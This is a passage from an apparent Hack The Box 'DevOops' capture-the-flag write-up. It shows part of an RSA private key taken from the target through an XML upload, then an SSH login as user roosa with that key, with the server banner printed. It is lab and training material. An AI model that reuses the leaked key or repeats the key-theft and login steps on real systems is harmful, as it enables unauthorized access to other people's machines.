 ```xml
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----

 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

Using this RSA key, I can open a SSH shell as `roosa`.

```bash
┌──(kali㉿kali)-[~/htb/devoops]
└─$ ssh -i roosa.priv roosa@10.10.10.91
The authenticity of host '10.10.10.91 (10.10.10.91)' can't be established.
ED25519 key fingerprint is SHA256:TJX/SwHfUAVqwvzLYXblm927Axojlv6xA8QvnXf5ppE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.91' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

roosa@devoops:~$
```



